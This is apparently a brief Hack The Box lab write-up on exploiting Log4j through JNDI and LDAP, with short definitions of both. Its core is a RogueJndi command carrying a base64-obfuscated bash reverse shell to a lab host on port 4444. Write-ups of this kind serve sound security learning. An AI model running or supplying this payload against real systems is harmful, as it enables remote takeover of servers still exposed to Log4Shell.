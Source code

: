 **log4j (via HTB Writeup)**

"`JNDI` (Java Naming and Directory Interface) API . By making calls to this API,
applications locate resources and other program objects. A resource is a program object that provides connections to systems, such as database servers and messaging systems.

`LDAP` (Lightweight Directory Access Protocol) is an open, vendor-neutral,
industry standard application protocol for accessing and maintaining distributed directory information services over the Internet or a Network. The default port that LDAP runs on is port 389."

***Important note:*** you must remove the spaces from the command listed in the [above writeup](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi) in order to succesfully get a reverse shell:

```sh
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuMjUvNDQ0NCAwPiYxCg==}|{base64,-d}|{bash,-i}" --hostname "10.10.14.25"
```

![pwncat](images/pwncat.png#center)
